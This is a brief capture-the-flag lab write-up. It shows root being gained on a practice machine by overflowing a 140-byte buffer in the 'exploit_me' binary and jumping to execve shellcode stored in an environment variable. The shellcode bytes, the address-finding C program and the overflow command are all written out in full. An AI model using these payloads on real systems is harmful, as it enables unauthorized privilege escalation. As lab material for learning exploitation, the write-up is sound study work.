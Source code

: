 starting from the writeup1 when we are connected to `zaz` user with `646da671ca01bb5d84dbb5fb2238dc8e`.

there is a different attack we can use on the buffer overflow on the `exploit_me` binary.
instead of using a `ret2libc` attack with system, we can use a shellcode stored in a environment variable.
we will put a shellcode (assembly instructions in hex format, the kind used by any program when loaded in memory) in a environment variable, and redirect the main's return address to the environment variable's address.

shellcode found on https://axcheron.github.io/linux-shellcode-101-from-hell-to-shell/.
`export code=$(python -c "print('\x90'*8 + '\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80')")`
a simple C program to get the address of the environment variable:

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) { printf("%p\n", getenv(argv[1])); }
```

`gcc main.c && ./a.out code`: `0xbfffff4b`

we know from the previous writeup that the buffer is 140 bytes long:

```shell
./exploit_me $(python -c 'print "i"*140 + "\x4b\xff\xff\xbf"')
```

and we are root !
